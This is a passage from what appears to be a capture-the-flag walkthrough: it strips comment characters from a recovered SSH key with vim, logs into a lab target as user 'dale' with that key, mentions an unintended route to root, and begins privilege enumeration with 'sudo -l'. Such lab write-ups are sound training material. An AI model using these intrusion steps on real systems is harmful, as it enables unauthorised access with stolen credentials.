 Here's a vim command to remove the comment characters

```vim
:%s/#//g
:wq
```

To login with an ssh key

```bash
chmod 600 dale_id_rsa
ssh -i dale_id_rsa dale@VICTIM_IP
```

![dale-login](/images/team/team-dale-login.png)
> We can escalate our privileges directly to root from 
> here. This route is unintended but it's still a 
> valuable learning experience!
> 
> The solution will be talked about in the
> Unintended Root section
{: .prompt-info }

## Horizontal Escalation
> Can dale run commands as another user?
{: .prompt-tip }

We can check our sudo permissions with

```bash
sudo -l
```
